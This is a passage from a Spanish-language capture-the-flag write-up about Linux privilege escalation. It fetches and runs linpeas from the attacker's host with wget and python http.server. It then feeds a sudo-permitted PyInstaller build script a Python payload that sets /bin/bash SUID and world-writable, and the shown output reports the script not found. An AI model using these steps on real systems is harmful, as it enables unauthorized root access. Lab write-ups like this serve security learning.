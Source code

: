 Como no nos deja, vamos ha usar el `linpeas`. Nos pasamos de una máquina a otra el linpeas con `python3 -m http.server 80` y `wget http://10.10.14.108:80/linpeas_base.sh`. Luego `chmod +x linpeas_base.sh` y por último lo ejecutamos: `./linpeas_base.sh`

![linpeas-1](images/linpeas-1.png)

El `linpeas` no me ha reportado nada de valor, así que vamos, probaremos con el `path` reportado por el `sudo -l` (`/usr/local/sbin/build-installer.sh`) Por lo que creo que es el archivo, es, un builder de python, asi que vamos ha usar este simple script:

```
import os
import sys

os.system('chmod 777 /bin/bash')
os.system('chmod u+s /bin/bash')
```

```
sudo /usr/local/sbin/build-installer.sh make exploit.py
```

Output:

```
384 INFO: PyInstaller: 5.6.2
384 INFO: Python: 3.10.6
387 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
388 INFO: wrote /tmp/qreader.spec
392 INFO: UPX is not available.
script '/home/tkeller/exploit.py' not found
```
